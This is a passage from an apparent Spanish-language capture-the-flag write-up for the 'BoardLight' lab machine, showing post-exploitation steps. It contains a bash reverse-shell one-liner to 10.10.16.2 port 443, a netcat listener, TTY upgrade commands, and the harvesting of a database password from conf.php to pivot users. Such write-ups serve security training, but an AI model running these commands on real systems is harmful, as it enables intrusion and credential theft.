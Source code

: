 Por lo tanto solo quedaría ponernos en escucha y enviarnos una reverse Shell con el típico one liner
`bash -c "bash >%26 /dev/tcp/10.10.16.2/443 0>%261"` 

![Reverse](../assets/images-BoardLight/Reverse.png)

una vez que recibo la reverse shell, hago el tratamiento de la TTY para tener una consola totalmente interecativa
```bash
www-data@boardlight:~/html/crm.board.htb/htdocs/public/website$ script /dev/null -c bash
<htb/htdocs/public/website$ script /dev/null -c bash            
Script started, file is /dev/null
www-data@boardlight:~/html/crm.board.htb/htdocs/public/website$ ^Z # CTRL+Z
zsh: suspended  nc -nlvp 443
                                                                                                                                
❯ stty raw -echo;fg
[1]  + continued  nc -nlvp 443
                              reset xterm
www-data@boardlight:~/html/crm.board.htb/htdocs/public/website$ export TERM=xterm
www-data@boardlight:~/html/crm.board.htb/htdocs/public/website$ stty rows 28 columns 129
```
Veo que esto como www-data y existe un usuario larissa, veré la forma de pivotar de usuario, veo que en la ruta `/var/www/html/crm.board.htb/htdocs/conf` existe un archivo conf.php donde veo una contraseña que sirve para conectarse a la db

![Creds](../assets/images-BoardLight/Creds.png)
